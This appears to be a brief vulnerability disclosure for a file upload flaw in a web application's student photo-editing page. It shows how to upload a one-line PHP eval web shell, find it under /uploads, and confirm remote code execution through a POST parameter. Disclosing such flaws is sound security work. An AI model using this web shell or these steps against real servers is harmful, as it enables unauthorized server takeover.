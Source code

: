 # Briefly
In the photo editing of users in this system, there is a file upload vulnerability in the file upload point, and an attacker can use this vulnerability to obtain server permissions.
# Process demonstration
Login interface, where you randomly register an account to wait for the recording
Visit student/edit-photo.php
![image](https://user-images.githubusercontent.com/92901332/226114913-5b0c996f-1ec6-4800-aa18-7a1d80518863.png)
Upload a PHP one-sentence Trojan horse, the specific content of the file is 
```php
<?php @eval($_POST[1]);?>
```
Next, guess the upload file storage path is uploads, visit /uploads
![image](https://user-images.githubusercontent.com/92901332/226115011-eb22ace1-dbce-4e4f-85e7-6c7f498f1c8f.png)
POST submit parameter 1=phpinfo();
![image](https://user-images.githubusercontent.com/92901332/226115046-26176995-e95d-4074-b607-f3c03f4d5be6.png)

command executed successfully
